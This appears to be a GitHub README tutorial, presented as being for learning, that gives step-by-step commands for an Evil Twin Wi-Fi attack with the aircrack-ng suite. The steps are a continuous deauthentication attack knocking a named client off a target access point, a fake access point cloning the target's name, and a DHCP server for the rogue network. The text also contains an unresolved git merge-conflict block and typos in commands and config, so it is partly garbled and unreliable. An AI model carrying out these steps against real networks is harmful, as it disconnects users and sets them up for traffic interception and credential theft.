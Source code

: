 # 前言

__author_ = Wanze Liu
仅供参考,此project为学习之用,了解破解流程,学习无线安全

system : kali linux

software : aiicrack-ng

## Task2 

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. attack target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI

<<<<<<< HEAD
## 4. Set up a fake AP impersonating the target AP
=======
the client will be disconnected from the AP we input above 
>>>>>>> 04935ebf4a4be8179254a08752a48a98cbff9630

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'BeautifulSoup' -c 11 wlan0mon
```

-a :set up MAC address 

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11

###  DHCP server 

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```

